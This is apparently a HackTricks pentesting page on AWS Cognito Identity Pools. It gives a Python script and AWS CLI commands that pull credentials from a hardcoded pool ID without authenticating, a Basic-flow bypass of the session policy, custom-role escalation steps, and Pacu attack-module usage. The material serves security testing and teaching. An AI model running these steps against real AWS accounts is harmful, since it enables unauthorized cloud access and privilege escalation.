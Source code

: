 # Cognito Identity Pools

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

Identity pools serve a crucial role by enabling your users to **acquire temporary credentials**. These credentials are essential for accessing various AWS services, including but not limited to Amazon S3 and DynamoDB. A notable feature of identity pools is their support for both anonymous guest users and a range of identity providers for user authentication. The supported identity providers include:

- Amazon Cognito user pools
- Social sign-in options such as Facebook, Google, Login with Amazon, and Sign in with Apple
- Providers compliant with OpenID Connect (OIDC)
- SAML (Security Assertion Markup Language) identity providers
- Developer authenticated identities

```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
    IdentityPoolId=identity_pool_id,
    Roles={
        'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
        'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
    }
)

# Print the response from AWS
print(response)
```

### Cognito Sync

To generate Identity Pool sessions, you first need to **generate and Identity ID**. This Identity ID is the **identification of the session of that user**. These identifications can have up to 20 datasets that can store up to 1MB of key-value pairs.

This is **useful to keep information of a user** (who will be always using the same Identity ID).

Moreover, the service **cognito-sync** is the service that allow to **manage and syncronize this information** (in the datasets, sending info in streams and SNSs msgs...).

### Tools for pentesting

- [Pacu](https://github.com/RhinoSecurityLabs/pacu), the AWS exploitation framework, now includes the "cognito\_\_enum" and "cognito\_\_attack" modules that automate enumeration of all Cognito assets in an account and flag weak configurations, user attributes used for access control, etc., and also automate user creation (including MFA support) and privilege escalation based on modifiable custom attributes, usable identity pool credentials, assumable roles in id tokens, etc.

For a description of the modules' functions see part 2 of the [blog post](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). For installation instructions see the main [Pacu](https://github.com/RhinoSecurityLabs/pacu) page.

#### Usage

Sample cognito\_\_attack usage to attempt user creation and all privesc vectors against a given identity pool and user pool client:

```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```

Sample cognito\_\_enum usage to gather all user pools, user pool clients, identity pools, users, etc. visible in the current AWS account:

```bash
Pacu (new:test) > run cognito__enum
```

- [Cognito Scanner](https://github.com/padok-team/cognito-scanner) is a CLI tool in python that implements different attacks on Cognito including unwanted account creation and identity pool escalation.

#### Installation

```bash
$ pip install cognito-scanner
```

#### Usage

```bash
$ cognito-scanner --help
```

For more information check https://github.com/padok-team/cognito-scanner

## Accessing IAM Roles

### Unauthenticated

The only thing an attacker need to know to **get AWS credentials** in a Cognito app as unauthenticated user is the **Identity Pool ID**, and this **ID must be hardcoded** in the web/mobile **application** for it to use it. An ID looks like this: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (it's not bruteforceable).

> [!TIP]
> The **IAM Cognito unathenticated role created via is called** by default `Cognito_<Identity Pool name>Unauth_Role`

If you find an Identity Pools ID hardcoded and it allows unauthenticated users, you can get AWS credentials with:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

Or you could use the following **aws cli commands**:

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```

> [!WARNING]
> Note that by default an unauthenticated cognito **user CANNOT have any permission, even if it was assigned via a policy**. Check the followin section.

### Enhanced vs Basic Authentication flow

The previous section followed the **default enhanced authentication flow**. This flow sets a **restrictive** [**session policy**](../../aws-basic-information/index.html#session-policies) to the IAM role session generated. This policy will only allow the session to [**use the services from this list**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (even if the role had access to other services).

However, there is a way to bypass this, if the **Identity pool has "Basic (Classic) Flow" enabled**, the user will be able to obtain a session using that flow which **won't have that restrictive session policy**.

```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```

> [!WARNING]
> If you receive this **error**, it's because the **basic flow is not enabled (default)**

> `An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`

Having a set of IAM credentials you should check [which access you have](../../index.html#whoami) and try to [escalate privileges](../../aws-privilege-escalation/index.html).

### Authenticated

> [!NOTE]
> Remember that **authenticated users** will be probably granted **different permissions**, so if you can **sign up inside the app**, try doing that and get the new credentials.

There could also be **roles** available for **authenticated users accessing the Identity Poo**l.

For this you might need to have access to the **identity provider**. If that is a **Cognito User Pool**, maybe you can abuse the default behaviour and **create a new user yourself**.

> [!TIP]
> The **IAM Cognito athenticated role created via is called** by default `Cognito_<Identity Pool name>Auth_Role`

Anyway, the **following example** expects that you have already logged in inside a **Cognito User Pool** used to access the Identity Pool (don't forget that other types of identity providers could also be configured).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
    --identity-pool-id <identity_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# User the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
<strong>    --custom-role-arn <role_arn> \
</strong>    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
</code></pre>

> [!WARNING]
> It's possible to **configure different IAM roles depending on the identity provide**r the user is being logged in or even just depending **on the user** (using claims). Therefore, if you have access to different users through the same or different providers, if might be **worth it to login and access the IAM roles of all of them**.

{{#include ../../../../banners/hacktricks-training.md}}




